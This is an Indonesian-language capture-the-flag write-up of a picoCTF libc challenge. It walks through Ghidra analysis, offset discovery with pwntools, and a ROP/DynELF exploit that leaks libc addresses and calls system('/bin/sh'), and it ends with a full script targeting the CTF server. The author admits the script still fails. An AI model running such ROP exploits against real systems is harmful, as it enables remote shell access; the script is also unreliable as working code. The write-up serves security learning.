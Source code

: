 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>


Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>


Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>


Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>


Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>


Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:


```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

**Note 1**: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

**Note 2:** Script yang saya buat dengan bantuan GPT, saat dijalankan selalu mengalami error. Tetapi, di bawah akan saya jelaskan ide dari script yang saya buat. Maaf, ko.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi **system**. Selain fungsi, string **/bin/sh** juga saya cari untuk menjalankan shell di remote server.

Selanjutnya, saya dengan bantuan ChatGPT membuat script untuk eksploitasinya. Pertama, saya membuat fungsi `leak` yang berfungsi untuk nge-leak address dari fungsi yang ada di libc dengan ROP. Fungsi ini akan mengembalikan alamat yang di-leak.


```python
def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  
```


Secara garis besar, fungsi di atas bekerja dengan membuat ROP chain dengan berisi fungsi `puts` pada plt dan address `main` lalu payload dikirim dan server akan mengembalikan address `puts` dari libc.

Selanjutnya, saya membuat fungsi `dynelf_exploit` untuk mendapatkan alamat fungsi `system` dan string `/bin/bash`.


```python
def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr
```


Fungsi di atas akan menggunakan DynELF untuk memanggil fungsi leak dengan binary ELF dari binary yang didapat dari soal. Setelah mendapatkan address dari fungsi `leak`, dicari address dari `system` dan `/bin/sh`. Lalu, fungsi ini akan me-return kedua address tersebut.

Pada fungsi `exploit` ini, saya mulai eksploitasi. 


```python
def exploit():

    system_addr, bin_sh_addr = dynelf_exploit()

    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()
```
Fungsi ini akan pertama-tama mencari address dari `system` dan `/bin/sh` menggunakan fungsi `dynelf_exploit` di atas. Selanjutnya menggunakan ROP yang berisikan `system("/bin/sh")` sebagai payload yang akan dikirimkan dan mendapatkan shell.

Tetapi, dari code ini, masih terjadi error yang saya juga bingung solve nya bagaimana. Berikut errornya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/71c5da90-7308-41b4-8fc2-77edc1309386">
</div>
</br>


Error ini terjadi ketika script sudah mendapatkan beberapa address, lalu terjadi error ini. Mohon maaf ko, saya sudah berusaha. Jika saya ada ide untuk solve ini, saya akan edit write up ini.

### FULL SCRIPT CODE

```python
from pwn import *

binary = './vuln'  # Nama binary
elf = ELF(binary)
context.binary = elf

# Alamat GOT dari puts dan fungsi main
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset buffer overflow
offset = 136

# Remote target
p = remote('mercury.picoctf.net', 49464)

def leak(address):

    log.info(f"Leaking data from address: {hex(address)}")
    
    rop = ROP(elf)
    rop.call(elf.plt['puts'], [address])  # Memanggil puts(address)
    rop.call(main_addr)  # Kembali ke main setelah memanggil puts

    payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload) 
    p.recvline()
    leaked_data = p.recvline().strip()
    
    log.info(f"Leaked data: {leaked_data}")
    return leaked_data.ljust(8, b'\x00')  

def dynelf_exploit():

    log.info("Starting DynELF...")
    dynelf = DynELF(leak, elf=elf)  # Inisialisasi DynELF dengan fungsi leak
    system_addr = dynelf.lookup('system', 'libc')  # Cari alamat fungsi system
    bin_sh_addr = next(dynelf.iter_strings('/bin/sh'))  # Cari string '/bin/sh'
    log.success(f"system: {hex(system_addr)}, /bin/sh: {hex(bin_sh_addr)}")
    return system_addr, bin_sh_addr

def exploit():
   
    # Mulai eksploitasi dengan DynELF
    system_addr, bin_sh_addr = dynelf_exploit()

    # Payload akhir untuk memanggil system("/bin/sh")
    log.info("Sending final payload to spawn shell...")
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])  # Memanggil system("/bin/sh")
    final_payload = flat({offset: rop.chain()})
    p.sendlineafter("WeLcOmE To mY EcHo sErVeR!\n", final_payload)

    # Berikan shell interaktif
    p.interactive()

if __name__ == "__main__":
    exploit()

```








